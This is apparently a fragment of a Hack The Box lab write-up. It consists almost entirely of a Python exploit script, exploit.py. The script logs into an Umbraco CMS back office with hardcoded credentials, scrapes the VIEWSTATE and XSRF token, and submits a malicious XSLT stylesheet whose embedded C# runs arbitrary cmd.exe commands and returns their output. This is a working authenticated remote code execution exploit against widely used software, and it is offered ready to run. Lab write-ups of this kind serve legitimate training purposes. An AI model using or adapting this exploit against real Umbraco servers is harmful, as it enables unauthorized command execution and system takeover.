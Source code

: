 <div class="filename"><span>exploit.py</span></div>

```python
import requests
import sys

from bs4 import BeautifulSoup

print("[!] Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "/c ' + sys.argv[1] + '"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '

print("[*] Sending payload")

login = "admin@htb.local"
password="baconandcheese"
host = "10.10.10.180";

# Step 0 - Set up session
s = requests.Session()

# Step 1 - Process Login
url_login = "http://" + host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = {"username":login,"password":password}
r1 = s.post(url_login,json=loginfo)

# Step 2 - Go to vulnerable web page
url_xslt = "http://" + host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r2 = s.get(url_xslt)

soup = BeautifulSoup(r2.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN}
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"}

# Step 3 - Launch the attack
r3 = s.post(url_xslt,data=data,headers=headers)

print("[!] End")
```


[1]: https://www.hackthebox.eu/home/machines/profile/234
[2]: https://www.hackthebox.eu/home/users/profile/2984
[3]: https://www.hackthebox.eu/